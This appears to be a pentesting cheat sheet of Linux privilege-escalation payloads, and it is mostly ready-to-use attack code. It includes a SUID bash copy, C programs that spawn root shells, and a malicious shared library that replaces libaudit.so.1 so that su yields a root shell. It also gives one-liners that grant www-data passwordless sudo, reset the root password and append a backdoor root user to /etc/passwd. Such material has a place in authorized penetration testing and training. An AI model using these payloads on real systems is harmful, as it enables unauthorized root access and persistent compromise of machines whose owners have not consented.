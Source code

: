 # Payloads to execute

## Bash

```bash
cp /bin/bash /tmp/b && chmod +s /tmp/b
/bin/b -p #Maintains root privileges from suid, working in debian & buntu
```

## C

```c
//gcc payload.c -o payload
int main(void){
    setresuid(0, 0, 0); #Set as user suid user
    system("/bin/sh");
    return 0;
}
```

```c
//gcc payload.c -o payload
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(){
    setuid(getuid());
    system("/bin/bash");
    return 0;
}
```

## Overwriting a file to escalate privileges

### Common files

* Add user with password to _/etc/passwd_
* Change password inside _/etc/shadow_
* Add user to sudoers in _/etc/sudoers_

### Overwriting a library

Check a library used by some binary, in this case `/bin/su`:

```bash
ldd /bin/su
        linux-vdso.so.1 (0x00007ffef06e9000)
        libpam.so.0 => /lib/x86_64-linux-gnu/libpam.so.0 (0x00007fe473676000)
        libpam_misc.so.0 => /lib/x86_64-linux-gnu/libpam_misc.so.0 (0x00007fe473472000)
        libaudit.so.1 => /lib/x86_64-linux-gnu/libaudit.so.1 (0x00007fe473249000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fe472e58000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fe472c54000)
        libcap-ng.so.0 => /lib/x86_64-linux-gnu/libcap-ng.so.0 (0x00007fe472a4f000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fe473a93000)
```

In this case lets try to impersonate `/lib/x86_64-linux-gnu/libaudit.so.1`.  
So, check for functions of this library used by the **`su`** binary:

```bash
objdump -T /bin/su | grep audit
0000000000000000      DF *UND*  0000000000000000              audit_open
0000000000000000      DF *UND*  0000000000000000              audit_log_user_message
0000000000000000      DF *UND*  0000000000000000              audit_log_acct_message
000000000020e968 g    DO .bss   0000000000000004  Base        audit_fd
```

The symbols `audit_open`, `audit_log_acct_message`, `audit_log_acct_message` and `audit_fd` are probably from the libaudit.so.1 library. As the libaudit.so.1 will be overwritten by the malicious shared library, these symbols should be present in the new shared library, otherwise the program will not be able to find the symbol and will exit.

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

//gcc -shared -o /lib/x86_64-linux-gnu/libaudit.so.1 -fPIC inject.c

int audit_open;
int audit_log_acct_message;
int audit_log_user_message;
int audit_fd;

void inject()__attribute__((constructor));

void inject()
{
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

Now, just calling **`/bin/su`** you will obtain a shell as root.

## Scripts

Can you make root execute something?

### **www-data to sudoers**

```bash
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

### **Change root password**

```bash
echo "root:hacked" | chpasswd
```

### Add new root user to /etc/passwd

```bash
echo hacker:$((mkpasswd -m SHA-512 myhackerpass || openssl passwd -1 -salt mysalt myhackerpass || echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> /etc/passwd
```

### 

